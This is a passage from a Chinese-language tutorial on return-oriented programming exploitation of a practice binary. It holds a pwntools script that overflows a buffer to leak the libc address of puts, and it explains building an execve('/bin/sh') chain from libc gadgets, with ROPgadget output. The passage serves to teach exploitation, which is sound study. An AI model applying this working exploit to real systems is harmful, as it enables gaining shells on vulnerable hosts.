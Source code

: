 ![image-20230427111014788](images/image-20230427111014788.png)

puts 函数的地址被保存在 0x601018 位置，只要调用 puts(0x601018)，就会打印 puts 函数在 libc 中的地址。

```python
#!/usr/bin/python3
from pwn import *
p=process('./rop')

# pop_rdi=0x4005d3
# puts_got=0x601018
# puts=0x400430
p.sendline(b'a'*18+p64(0x4005d3)+p64(0x601018)+p64(0x400430))
p.recvuntil('\n')

addr=u64(p.recv(16).ljust(8,b'\x00'))
print(hex(addr))
# 0xa7f776dfe46a0
```

根据 puts 函数在 libc 库中的偏移地址，可以计算出 libc 的基地址，然后利用 libc 中的 Gadget 构造可以执行 `/bin/sh` 的 ROP，从而获得 shell。可以直接调用 libc 中的 system 函数，也可以使用 syscall 系统调用来完成。

以系统调用为例，通过查询系统调用表，可以知道 execve 的系统调用号为 59，想要实现任意命令执行，需要把参数设置为：

```
execve("/bin/sh", 0, 0)
```

在 x64 位操作系统上，设置方式为在执行 syscall 前将 rax 设为 59，rdi 设为字符串 `/bin/sh` 的地址，rsi 和 rdx 设为 0。字符串 `/bin/sh` 可以在 libc 中找到，不需要另外构造。

虽然不能直接改写寄存器中的数据，但是可以将要写入寄存器的数据和 Gadget 一起入栈， 将这些数据写入寄存器。Ubuntu 16.04 中 libc 位于 `/lib/x86_64-linux-gnu/libc-2.23.so`，可以从 libc 中找到需要的 Gadget：

```
ubuntu@ubuntu:~/Desktop/ROPgadget$ python3 ROPgadget.py --binary /lib/x86_64-linux-gnu/libc-2.23.so --ropchain
```

```
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x123152 mov qword ptr [rsi], rdi ; ret
	[+] Gadget found: 0x202f8 pop rsi ; ret
	[+] Gadget found: 0x21112 pop rdi ; ret
	[-] Can't find the 'xor rdi, rdi' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0xe7bfa mov qword ptr [rdx], rdi ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0x21112 pop rdi ; ret
	[-] Can't find the 'xor rdi, rdi' gadget. Try with another 'mov [reg], reg'

```